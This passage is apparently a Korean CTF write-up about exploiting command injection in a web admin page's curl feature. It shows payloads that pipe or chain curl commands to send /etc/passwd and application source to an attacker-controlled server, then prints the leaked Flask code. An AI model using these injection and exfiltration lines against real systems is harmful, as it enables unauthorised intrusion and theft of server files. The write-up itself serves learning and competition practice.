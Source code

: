`http://13.125.199.169:10001/admin/system` 페이지에 ping, curl, view log 기능들이 존재했다. 여기서 팀원(@DevDori)이 `ifconfig.me | curl http://server_ip:port/` 요청을 통해 curl 기능에서 외부로 요청을 보내는 방법을 찾았다.     

이후, `ifconfig.me || curl -F a=@/etc/passwd http://server_ip:port/` 이와 같이 F 옵션을 통해 파일 내용을 가져오는 것을 확인했다. 여기서 서버 파일 내용을 읽어야하는데 guessing으로만 파일 경로를 찾아야해서 삽질을 굉장히 많이했다.     

삽질을 하던 중, `ifconfig.me || curl -F a=@./../app/__init__.py http://server_ip:port/` 요청을 통해 `__init__.py` 파일을 릭했다.   
      
```python
from flask import Flask
import secrets
import logging
import click

class RemoveColorFilter(logging.Filter):
    def filter(self, record):
        if record and record.msg and isinstance(record.msg, str):
            record.msg = click.unstyle(record.msg)
            return True

class DebugPinFilter(logging.Filter):
    def filter(self, record):
        return 'Debugger PIN' not in record.getMessage() and '/console' not in record.getMessage()

def create_app():
    app = Flask(__name__)

    app.secret_key = secrets.token_hex()

    logger = app.logger
    logger.setLevel(logging.DEBUG)

    file_handler = logging.FileHandler("logs/server.log", encoding='utf-8')
    logger = logging.getLogger('werkzeug')
    logger.setLevel(logging.INFO)
    logger.propagate = False
    logger.addHandler(file_handler)
    logger.addFilter(DebugPinFilter())
    logger.addFilter(RemoveColorFilter())

    from views import index, admin
    app.register_blueprint(index.bp)
    app.register_blueprint(admin.bp)

    return app


if __name__ == "__main__":
    app = create_app()
    app.run(host="0.0.0.0", threaded=True, debug=True, port=5000)
```            
     
